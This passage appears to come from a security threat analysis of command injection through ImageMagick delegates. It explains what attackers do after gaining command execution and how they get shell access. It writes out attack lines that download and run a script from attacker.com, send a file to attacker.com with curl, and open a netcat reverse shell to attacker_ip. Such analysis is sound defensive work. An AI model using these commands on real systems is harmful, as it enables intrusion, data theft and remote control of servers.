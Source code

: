 **Detailed Breakdown:**

*   **Command Execution Context:** Once the attacker successfully injects shell commands through a vulnerable delegate, these commands are executed by the system shell. The commands run with the same privileges as the ImageMagick process.  In web server environments, this is often the web server user (e.g., `www-data`, `apache`, `nginx`).

*   **Impact of Arbitrary Command Execution:**  The ability to execute arbitrary system commands grants the attacker significant control over the server.  They can perform a wide range of malicious actions, including:

    *   **Information Gathering:**  Execute commands like `whoami`, `id`, `uname -a`, `ls -la`, `cat /etc/passwd` to gather system information, user details, and file system structure.
    *   **Data Exfiltration:**  Use commands like `curl`, `wget`, `scp`, `nc` to send sensitive data from the server to an attacker-controlled external server. This could include database credentials, application code, user data, or configuration files.
    *   **System Modification:**  Create, modify, or delete files and directories.  This could be used to deface websites, disrupt services, or plant backdoors.
    *   **Lateral Movement:**  Use the compromised server as a stepping stone to attack other systems within the network.
    *   **Denial of Service (DoS):**  Execute commands that consume system resources (CPU, memory, disk I/O) to cause a denial of service.

*   **Example Commands:**  Common commands an attacker might execute at this stage include:

    *   `id`: To identify the user context of the executed commands.
    *   `uname -a`: To get system information.
    *   `ls -la /`: To list files in the root directory.
    *   `cat /etc/passwd`: To read the password file (for user enumeration, though passwords are usually hashed).
    *   `wget http://attacker.com/malicious_script.sh -O /tmp/malicious_script.sh && bash /tmp/malicious_script.sh`: To download and execute a malicious script.
    *   `curl http://attacker.com/receive_data -d "$(cat /sensitive/data.txt)"`: To exfiltrate sensitive data.

#### 4.3. Gain Shell Access to Server [CRITICAL NODE]

**Detailed Breakdown:**

*   **Escalation to Shell Access:** While arbitrary command execution is already critical, gaining interactive shell access provides a persistent and more versatile level of control.  It allows the attacker to interact with the server in real-time, explore the file system, execute commands repeatedly, and establish a more permanent foothold.

*   **Techniques for Gaining Shell Access:**  Attackers typically use reverse shells to establish a connection back to their own machine, providing them with an interactive shell on the compromised server. Common techniques include:

    *   **Reverse Shell using `netcat` (nc):**

        ```bash
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_ip attacker_port >/tmp/f
        ```

        This command creates a named pipe, connects it to `/bin/sh`, and pipes the input and output through `netcat` to the attacker's IP and port. The attacker needs to be listening on `attacker_ip:attacker_port` with `nc -lvp attacker_port`.
